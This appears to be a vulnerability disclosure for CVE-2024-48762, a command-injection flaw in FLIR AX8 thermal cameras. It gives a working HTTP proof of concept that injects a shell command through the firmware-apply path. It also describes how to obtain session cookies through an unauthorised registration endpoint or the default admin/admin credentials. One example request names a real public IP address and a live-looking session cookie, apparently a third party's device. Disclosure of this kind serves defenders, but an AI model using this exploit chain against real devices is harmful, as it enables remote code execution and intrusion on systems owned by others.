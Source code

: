 ## CVE-2024-48762

#### Description

Command injection vulnerability in /usr/www/application/models/settingscamera.php  in FLIR AX8 up to 1.46.16 allows attackers to run arbitrary commands via the value parameter.

### Note:

This vulnerability is a backend issue that requires obtaining cookies. It  can exploit the unauthorized access vulnerability for arbitrary user  registration found at /tools/test_login.php?action=register. After  registering a new user, cookies can be obtained to achieve RCE (Remote  Code Execution). 

Also.Under normal circumstances, it has a weak password vulnerability with  default account credentials being 'admin' for both user and password too.  You can also obtain a cookie through this method.

### POC

```
GET /settings/applyfirmware/;id>test123.txt;/false HTTP/1.1
Host: XXXX
Priority: u=0, i
Accept-Encoding: gzip, deflate
Referer: XXXX
Cookie: XXXX
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Upgrade-Insecure-Requests: 1
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
```

For example

- this cookie must be changed

```
GET /settings/applyfirmware/;id>test123.txt;/false HTTP/1.1
Host: 222.103.211.89:8004
Priority: u=0, i
Accept-Encoding: gzip, deflate
Referer: http://222.103.211.89:8004/
Cookie: theme=light; distanceUnit=metric; temperatureUnit=celsius; showCameraId=false; clientTimeZoneOffset=-480; clientTimeZoneDST=0; PHPSESSID=fede7f79f208effcb87474d02fe6d53d
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Upgrade-Insecure-Requests: 1
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
```



### Response

```
HTTP/1.1 200 OK
X-Powered-By: PHP/5.4.14
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Content-type: text/html
Date: Mon, 11 Feb 2002 09:18:49 GMT
Server: lighttpd/1.4.33
```

![image-1](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202412182135497.png)

![image-20241002225635281](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202412182135157.png)



